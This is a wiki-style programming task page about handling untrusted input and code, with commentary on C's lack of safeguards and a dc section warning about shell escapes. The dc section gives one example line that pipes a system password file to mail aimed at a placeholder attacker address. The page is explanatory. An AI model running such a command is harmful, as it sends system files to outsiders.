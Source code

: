 +++
title = "Untrusted environment"
description = ""
date = 2019-08-19T09:34:14Z
aliases = []
[extra]
id = 12812
[taxonomies]
categories = []
tags = []
+++

{{draft task}}
Sometimes it is useful to run code with inputs from untrusted users, untrusted code, etc. Explain and demonstrate the features your language uses for dealing with untrusted input and untrusted code. Explain possible compromises, weaknesses and exploits that may be available through the language (for example forcing execution of something outside of the application) as a result of using untrusted data sources.

The intention is that the definition is to be interpreted broadly; different languages will solve this task in very different ways and with (generally) incomparable results.


## C

C is a double edged sword. It was designed to allow programmers to do virtually anything and everything. The aim was as a high level language to be close as possible at the computer hardware (CPU and memory). This gives the property of C to being fast. Therefore its possible to write large parts for Operating Systems with it. The ability to access memory at the bit level, embed assembly directly and yet be readable ( or unreadable ) by humans, resulted in a language which forms the foundation of the world as we know it.

In other words, there is no check. Users and programmers can do anything they want. There is no sandbox, no off-limits area. Unless it is explicitly forbidden by the compiler or the operating system, a C program without sufficient and necessary checks will result in 'unintended and unforeseen' consequences with the 'appropriate' inputs.

On the bright side, programming in C disciplines the programmer, nothing like a grueling boot camp or war time conscription to make one appreciate the niceties of a Java, Perl, Python or Haskell.

But try writing an operating system with them...

With great power, comes great responsibility. :)


## dc


Beware of allowing user input to fed to the reverse polish calculator. It has the ability to run shell commands, and this could be a security risk:


```dc
`!'cat /etc/password|mail badguy@hackersrus.com
```

